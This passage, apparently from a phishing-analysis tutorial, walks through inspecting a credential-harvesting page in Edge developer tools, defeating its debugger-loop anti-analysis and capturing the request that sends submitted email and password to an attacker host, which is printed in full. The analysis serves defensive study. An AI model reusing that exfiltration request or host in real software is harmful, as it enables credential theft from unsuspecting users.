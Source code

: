 ## Dynamic analysis

When static analysis fails to provide all of the answers you need, preform a
dynamic analysis by monitoring the activity of the page. This can be done in
the developer tools built into Microsoft Edge (and most other web browsers).
Microsoft Edge is a great choice of web browser for dynamic analysis of
potentially malicious websites, because as the default web browser in Windows
10, it has a large personal and corporate userbase, and is therefore a
frequent target. Modern versions of Microsoft Edge use Chromium, the same
browser engine that is behind Google Chrome, so pages so pages should behave
nearly identically in both browsers in most cases.

To open the developer tools in Microsoft Edge, click on the main ... menu,
navigate to More tools> Developer tools, or use the keyboard shortcut Ctrl +
Shift + I.

This sample continuously calls the debugger
[statement](https://developer.mozilla.org/en-
US/docs/Web/JavaScript/Reference/Statements/debugger) in a loop as a basic
form of anti-analysis. This triggers a breakpoint that stops execution when a
debugger is used.

![A screenshot of the debugger stopping on the debugger
statement](/assets/wp-content/uploads/2021/05/06-anti-debug.webp)

To bypass this, click on the deactivate breakpoints button, and refresh the
page. When the source tab is clicked, the Developer Tools provides the option
of deminifying the the code. Do that.

![A screenshot showing the deactivate breakpoints
button](/assets/wp-content/uploads/2021/05/07-edge-debugger-pretty.webp)

Unfortunately, this also deactivates any breakpoints that could be set in the
debugger for line-by line dynamic analysis.

### Network forensics

Once breakpoints are deactivated on the Network tab to monitor network
activity, check the Preserve log and Disable cache checkboxes, then submit
fake credentials in the login form.

If the credential harvesting page had been hosted at a URL instead, it is
useful to toggle the Preserve log and Disable cache on **before** visiting a
link in a fishing email, that way any redirects are captured.

![A screenshot of the Network tab](/assets/wp-content/uploads/2021/05/08-edge-network.webp)

Each request is listed in the left sidebar. Right-clicking on any of the
requests provides an option to copy the request headers, response headers, and
the response bodies. This is the full request.

    GET /rkFyMnr1Lndz4HfW22x2qLPuHAuGnVdWEUO2HlC4/T8rcLqB3Wl84kJhezG1cTALdGnVTLWY7yQvxIbnV/UQOYLWpdSGNlhiboXanQ.php?sOc9qJsBVqZihFxEBSoe=REDACTED%40REDACTED.com&wowVsfUC6toe92s7XQNn=Can%27tGuessThis! HTTP/1.1
    Host: plotoperation1.3eehj3wdhdhjww3r3dkjd.com
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache
    sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Microsoft Edge";v="90"
    Accept: application/json, text/javascript, */*; q=0.01
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36 Edg/90.0.818.51
    Origin: null
    Sec-Fetch-Site: cross-site
    Sec-Fetch-Mode: cors